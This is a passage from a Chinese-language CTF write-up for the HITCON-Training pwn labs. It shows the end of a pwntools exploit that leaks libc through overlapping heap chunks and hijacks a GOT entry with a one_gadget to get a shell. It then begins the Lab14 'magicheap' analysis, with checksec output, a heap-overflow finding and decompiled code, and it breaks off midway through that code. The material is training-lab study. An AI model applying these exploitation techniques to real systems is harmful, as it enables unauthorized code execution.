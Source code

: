 ```python
# use overlapping 
create(0x30, payload) # 1

# leak
show(1)

addr = u64(p.recvuntil("\x7f")[-6:].ljust(8, "\x00"))
libc_base = addr - libc.symbols['atoi']
one_gadget = 0xf1147 + libc_base

# hijack got
edit(1, p64(one_gadget))

p.sendline("pwnit")
p.interactive()

```

## Lab14——magicheap ##

### 防护 ###

```
liwc@ubuntu:~/pwn/HITCON-Training/LAB/lab14$ checksec magicheap
[*] '/home/liwc/pwn/HITCON-Training/LAB/lab14/magicheap'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)


```

### 分析 ###

还是增删改查。

当输入4869时，若全局变量magic > 0x1305，则直接cat flag。

漏洞存在于edit功能中，存在一个任意长度的堆溢出。

```c++
unsigned __int64 edit_heap()
{
  size_t v0; // ST08_8
  int v2; // [rsp+4h] [rbp-1Ch]
  char buf; // [rsp+10h] [rbp-10h]
  unsigned __int64 v4; // [rsp+18h] [rbp-8h]

  v4 = __readfsqword(0x28u);
  printf("Index :");
  read(0, &buf, 4uLL);
  v2 = atoi(&buf);
  if ( v2 < 0 || v2 > 9 )
  {
    puts("Out of bound!");
    _exit(0);
  }
  if ( heaparray[v2] )
  {
    printf("Size of Heap : ", &buf);
    read(0, &buf, 8uLL);
    v0 = atoi(&buf);
    printf("Content of heap : ", &buf);
```